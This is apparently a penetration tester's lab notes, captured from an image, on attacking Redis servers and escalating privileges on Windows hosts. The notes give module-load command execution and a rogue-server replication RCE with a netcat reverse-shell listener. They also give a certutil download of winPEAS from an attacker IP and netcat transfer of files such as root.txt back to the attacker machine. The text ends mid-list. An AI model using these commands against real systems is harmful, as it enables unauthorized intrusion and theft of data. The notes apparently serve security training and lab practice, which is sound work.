             > save
            - now access the site to see if if the file is avaialble 
        - ssh key load
        - cronjob 
        - module load
            - On kali the directory ~/Downloads/GITHUBSTUFF/RedisModules-ExecuteCommand alread has the module.so compiled.
            - upload it to the server, and run this in redis
                > flushall
                > MODULE LOAD /location/of/module.so
                - Execut commands now with
                > system.exec "whoami"
        - master / slave (Works on only version 5.0.9 and lower
            - https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0
            > cd ~/Downloads/GITHUBSTUFF/redis-rouge-server
            - start reverse shell
                > nc -nlvp 8080
            - start attack
                > ./redis-rogue-server.py --rhost 192.168.228.69 --lhost 192.168.49.228 --lport 6379
                    - Make sure "lport" is not being used by any other port.
                    - Choose "r"
                    - Choose your IP
                    - Choose 8080 for port

# Host PE 
==================

# Windows PE section
--------------------
*Windows PE Steps*
1) Run the following commands, figure out who you are with rights
    > whoami
    > whoami /priv
        - Look for 
        - SeImpersonatePrivilege, SeAssignPrimaryPrivilege (RoguePotato, JuicyPotato)
        - SeBackupPrivilege (Can extract Hashs (SAM and SYSTEM), then pass the hash)
        - SeRestorePrivilege (Can modify services, overwrite DLLs, modify registry, etc.)
        - SeTakeOwnershipPrivilege (Take ownership of a object (WRITE_OWNER), adjust ACL, and grant write access)
        - Others more advanced
            - SeTcbPrivilege
            - SeCreateTokenPrivilege
            - SeLoadDriverPrivilege
            - SeDebugPrivilege
    > whoami /groups
3) run winpeas
    > certutil.exe -urlcache -split -f http://192.168.19.21:135/winPEASx64.exe C:\Users\xavier\Downloads\winPEASx64.exe
    > .\winpeasany.exe fast searchfast cmd
    - Then run winpeas slow and aggresive to a file
        > .\winpeasany.exe > winpeas.out
4) run systeminfo
    > systeminfo > sysinfo.out
5) Transfer over nc.exe to transfer files back to kali
6) Transfer sysinfo.out, and winpeas.out to kali for further examination
    - netcat (From windows to kali):
        > kali > nc -l -p 4443 > root.txt
        > Windows > nc.exe -w 3 10.10.14.18 4443 < root.txt
7) ru
8) perform a quick look around the following